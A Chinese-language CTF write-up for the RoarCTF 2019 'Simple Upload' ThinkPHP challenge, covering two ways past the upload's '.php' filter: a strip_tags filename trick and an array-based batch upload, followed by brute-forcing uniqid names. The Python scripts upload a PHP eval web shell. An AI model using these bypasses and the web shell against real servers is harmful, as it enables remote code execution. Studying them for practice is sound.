 ```yaml
---
title: '[RoarCTF 2019]Simple Upload'
date: 2024-09-22 19:21:07
tags: 
      - thinkphp
      - 文件上传
categories: 刷题笔记
---
```


## [RoarCTF 2019]Simple Upload

我们打开页面进行代码审计

```
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
}
```

是一个文件上传，但根往常的不一样，文件上传没有上传键

通过查询wp，我们发现这道题其实是定义了一个路由，我们知到在路由里，默认上传路径是/home/index/upload,但在这道题里，如果我们直接访问url+/home/index/upload，会直接报404错误，这里来解释一下 

<!--more-->

![image-20240922192915768](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221929910.png)

所以我们找到了题目的上传路径。



### 解法一

### 代码层绕过

主要是传进入的文件名在处理的时候被这么处理：

```
        foreach ($files as $key => $file) {
            $file['name']  = strip_tags($file['name']);
            if(!isset($file['key']))   $file['key']    =   $key;
            /* 通过扩展获取文件类型，可解决FLASH上传$FILES数组返回文件类型错误的问题 */
            if(isset($finfo)){
                $file['type']   =   finfo_file ( $finfo ,  $file['tmp_name'] );
            }

```

这里有个strip_tags-— 从字符串中去除 HTML 和 PHP 标签

那我们能直接绕过，传`1.<>php`

```
import  requests

url = "http://8cbe0e9c-b7de-46f3-b93d-555073775ad1.node3.buuoj.cn/index.php/home/index/upload"

files={'file':('1.<>php',"<?php eval($_GET['cmd'])?>")}
r=requests.post(url=url,files=files)
print(r.text)

```

得到.

![image-20240922193315013](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221933040.png)

我们访问这个文件(注意去左斜杠\\)，得到flag

![image-20240922193609587](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221936620.png)

### 解法二

upload批量上传

原因

```
thinkPHP里的upload()函数在不传参的情况下是批量上传的
```

因此如果上传多个文件，这里的处理：

```
        $uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

```

`$uploadFile['name']`是个数组，里面的每个元素是文件名。因此对数组操作，这里肯定可以绕过了，之后的处理也不用管了，反正支持多文件上传，和正常的单文件上传最后肯定是一样的。

师傅的脚本

```
import requests
url = "http://8cbe0e9c-b7de-46f3-b93d-555073775ad1.node3.buuoj.cn/index.php/home/index/upload"
files = {'file':("1.txt","")}
files2={'file[]':('1.php',"<?php eval($_GET['cmd'])?>")}
r = requests.post(url,files = files)
print (r.text)
r = requests.post(url,files = files2)
print (r.text)
r = requests.post(url,files = files)
print (r.text)

```

我们发现文件名都是通过uniqid得到的，这是根据当前时间来得到的随机数，取这么个区间：

![image-20240922193951774](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221939845.png)

直接爆破最后的那几位即可

